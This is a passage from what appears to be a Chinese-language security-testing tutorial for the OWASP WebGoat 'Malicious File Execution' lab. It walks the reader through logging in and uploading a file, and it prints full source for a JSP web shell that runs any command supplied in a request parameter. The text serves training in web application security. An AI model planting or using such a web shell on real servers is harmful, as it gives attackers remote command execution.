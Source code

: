 确保 **owaspbwa** 虚拟机正在运行。从虚拟机的初始登录页面选择 OWASP WebGoat 应用程序。登录页面将配置为特定于您机器的 IP 地址。

## 如何操作...

1.  点击 **OWASP WebGoat** 链接后，系统会提示您输入登录凭据。请使用以下凭据：用户名：**guest**；密码：**guest**。

1.  身份验证后，点击 **Start WebGoat**（开始 WebGoat）按钮以访问应用程序的练习。

1.  从左侧菜单中点击 **Malicious Execution** | **Malicious File Execution**。您将看到一个文件上传功能页面。说明中写明只允许上传图片：

![图 7.46 – 恶意文件执行课程](img/B21173_07_046.jpg)

图 7.46 – 恶意文件执行课程

1.  使用记事本或你喜欢的文本编辑器，创建一个名为 **poly.jsp** 的新文件，并在文件中编写以下代码：

    ```
    <%@ page import="java.util.*,java.io.*"%>
     <%
     if (request.getParameter("cmd") != null) {
         out.println("Webshell cmd: " + request.getParameter("cmd") 
         + "<br />");
         Process p = Runtime.getRuntime().exec(request.
         getParameter("cmd"));
         OutputStream os = p.getOutputStream();
         InputStream in = p.getInputStream();
         DataInputStream dis = new DataInputStream(in);
         String disr = dis.readLine();
         while ( disr != null ) {
               out.println(disr);
               disr = dis.readLine();
         }
     }
     %>
    ```
